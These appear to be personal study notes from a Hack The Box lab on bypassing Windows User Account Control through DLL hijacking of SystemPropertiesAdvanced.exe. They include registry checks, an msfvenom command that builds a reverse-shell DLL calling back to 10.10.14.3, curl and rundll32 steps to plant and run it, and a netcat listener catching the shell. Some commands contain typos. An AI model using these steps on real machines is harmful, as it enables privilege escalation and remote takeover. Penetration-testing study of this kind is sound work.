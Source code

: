 UAC is a feature that enables consent for elevated privileges.
https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works

List of registry keys:
https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-admin-approval-mode-for-the-built-in-administrator-account

![[Pasted image 20230107092515.png]]

#### Checking Current User

![[Pasted image 20230107111341.png]]

#### Confirming Admin Group Membership

![[Pasted image 20230107111410.png]]

#### Reviewing User Privileges

![[Pasted image 20230107111429.png]]

#### Confirming UAC is Enabled
```cmd-session
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```

#### Checking UAC Level

```cmd-session
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```

0x5 is the highest UAC level of `Always Notify`.

#### Checking Windows Version

![[Pasted image 20230107111801.png]]

![[Pasted image 20230107092941.png]]

https://github.com/hfiref0x/UACME project maintains a list of UAC bypasses.

## Scenario

###### When attempting to locate a DLL, Windows uses this following order:
```
1. The directory from which the applicaiton loaded
2. The System32 Directory C:\Windows\System32
3. 16-bit System Directory C:\Windows\System
4. The Windows Directory
5. Any directories listed in PATH
```

32-bit `SystemPropertiesAdvanced.exe` attempts to load the non-existent DLL srrstr.dll, which is used
by System Restore functionality

![[Pasted image 20230107095051.png]]

WindowsApps is wihtin the user's path variable. We can potentially bypass UAC by using DLL
hijacking, placing a malicous `srrstr.dll` in the WindowsApps folder

## Generating Malicious srrstr.dll
```bash
msfvenom -p windows/shell_reverse_tcp LHSOT=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

sudo python3 -m http.server 8080
curl http://10.10.14.3:8080/srrstr.dll -O
"C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

#### Test Connection
```
rundll32 shell32.dll,Control_RunDLL \
		C:\Users\sarah]AppData\Local\Microsoft\WIndowsApps\srrstr.dll

C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe -> Reverse Shell
```


```shell-session
bluechat@htb[/htb]$ nc -lnvp 8443

listening on [any] 8443 ...

connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 49789
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Users\sarah> whoami /priv

whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

```

#### Executing SystemPropertiesAdvanced.exe on Target Host

![[Pasted image 20230107111029.png]]

